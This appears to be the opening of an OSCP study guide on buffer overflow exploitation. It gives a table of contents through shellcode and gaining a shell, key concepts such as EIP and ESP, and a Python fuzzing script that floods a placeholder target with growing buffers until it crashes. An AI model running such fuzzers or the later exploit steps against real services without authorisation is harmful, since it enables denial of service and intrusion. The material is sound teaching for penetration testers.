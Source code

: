 # Buffer Overflow Exploitation

Buffer overflows are a critical vulnerability class that can lead to remote code execution. This guide covers the fundamentals of buffer overflow exploitation, which is essential for the OSCP exam.

## 📋 Table of Contents
1. [Buffer Overflow Basics](#buffer-overflow-basics)
2. [Fuzzing](#fuzzing)
3. [Finding the Offset](#finding-the-offset)
4. [Controlling EIP](#controlling-eip)
5. [Finding Bad Characters](#finding-bad-characters)
6. [Finding the Right Module](#finding-the-right-module)
7. [Generating Shellcode](#generating-shellcode)
8. [Gaining a Shell](#gaining-a-shell)
9. [Tools](#-tools)
10. [Practice](#-practice)

## Buffer Overflow Basics

### What is a Buffer Overflow?
A buffer overflow occurs when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory and altering the program's execution flow.

### Key Concepts
- **Stack**: Memory region that stores function calls and local variables
- **EIP**: Extended Instruction Pointer - points to the next instruction to execute
- **ESP**: Extended Stack Pointer - points to the top of the stack
- **JMP ESP**: Assembly instruction that jumps to the address in ESP

## Fuzzing

### Basic Fuzzing Script
```python
#!/usr/bin/python3
import socket, sys

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('TARGET_IP', PORT))
        s.send((buffer))
        s.close()
        buffer += "A" * 100
    except:
        print(f"Fuzzing crashed at {len(buffer)} bytes")
        sys.exit()
```
